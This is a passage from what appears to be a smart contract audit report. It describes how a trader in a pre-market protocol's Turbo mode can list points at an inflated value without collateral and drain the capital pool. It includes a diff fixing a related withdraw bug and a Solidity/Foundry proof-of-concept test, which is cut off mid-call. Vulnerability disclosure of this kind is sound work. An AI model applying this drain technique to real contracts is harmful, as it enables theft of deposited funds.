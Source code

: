 By setting an extremely high `_amount` for the points they are selling, the malicious trader can drain large sums of the protocol's funds.

## Proof Of Concept
To reproduce to test below, some parts of the codebase need to be updated given that there are another vulnerability connected here:

1. Fix the vulnerability that allows users to keep withdrawing in `TokenManager::withdraw` (explained in details in another report):
```diff
// TokenManager::withdraw
+ userTokenBalanceMap[_msgSender()][_tokenAddress][_tokenBalanceType] -= claimAbleAmount;
  emit Withdraw(
    _msgSender(),
    _tokenAddress,
    _tokenBalanceType,
    claimAbleAmount
);
```

The following test case demonstrates how Bob can easily drain `$200_000` from the protocol (and potentially more):
```solidity
function test_tradersCanStealFundsIfSubsequentListingsAreVirginInTurboMode() public {
        vm.startPrank(user1);
        capitalPool.approve(address(mockUSDCToken));


        vm.startPrank(user);
        uint points = 1000;
        uint amount = 1000 * 1e18;
        // Alice (user) create an Ask offer of 1,000 points with amount $1,000
        preMarktes.createOffer(
            CreateOfferParams(
                marketPlace,
                address(mockUSDCToken),
                points,
                amount,
                10000,
                300,
                OfferType.Ask,
                OfferSettleType.Turbo
            )
        );
        deal(address(mockUSDCToken), address(capitalPool), 500000 ether); // simulating other deposits and trading activities...

        address offerAddr = GenerateAddress.generateOfferAddress(0);

        // Bob (user2) takes the offer and buys 500 points from Alice
        vm.startPrank(user2);
        preMarktes.createTaker(offerAddr, 500);

        address bobStockAddr = GenerateAddress.generateStockAddress(1);

        // Bob then lists his offer for trading with $200,000 value. No need to put collateral in Turbo mode
        preMarktes.listOffer(bobStockAddr, 200_000 * 1e18, 10000);
        address bobOfferAddr = GenerateAddress.generateOfferAddress(1);
        // owner sets TGE
        vm.startPrank(user1);
        systemConfig.updateMarket(
            "Backpack",
            address(mockPointToken),
```